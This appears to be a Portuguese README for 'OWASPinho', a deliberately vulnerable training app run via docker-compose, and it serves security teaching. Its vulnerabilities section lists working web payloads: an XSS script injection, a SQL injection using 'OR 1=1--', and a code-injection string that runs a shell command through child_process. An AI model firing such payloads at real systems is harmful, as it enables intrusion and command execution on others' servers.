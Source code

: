 # OWASPinho
- [OWASPinho](#owaspinho)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)



## Desafio

Leia as instruções [aqui](DESAFIO.md).

## Execução

```
$ unzip owaspinho.zip
$ cd owaspinho
$ docker-compose up
```

![](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

![image-20230411163617555](images/image-20230411163617555.png)


## Vulnerabilidades 
### XSS
```
/?useriInput=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
### SQL Injection
```
/users?username=OR+1=1--&access-token=ASDASD
```
### RCE
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ls').toString();%20}
```